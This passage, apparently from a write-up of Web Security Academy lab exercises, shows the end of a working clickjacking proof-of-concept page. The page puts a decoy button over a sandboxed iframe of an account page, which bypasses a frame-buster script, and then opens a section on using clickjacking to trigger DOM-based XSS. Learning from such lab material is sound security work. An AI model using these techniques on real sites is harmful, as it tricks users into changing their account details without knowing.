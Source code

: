 ```
			height:600px;
			z-index:1;
			}
		#btn {
			position:absolute;
			top:440px;
			left:70px;
		}
	</style>
</head>
<body>
	<div id="decoy_website">
	<button id="btn">Click me</button>
	</div>
	<iframe id="target_website" src="https://0a11003f031a6dc080b6033a0090001e.web-security-academy.net/my-account?email=test@test.com" sandbox="allow-forms">
	</iframe>
</body>
```



![img](images/Clickjacking%20with%20a%20frame%20buster%20script/4.png)

# 04 Exploiting clickjacking vulnerability to trigger DOM-based XSS
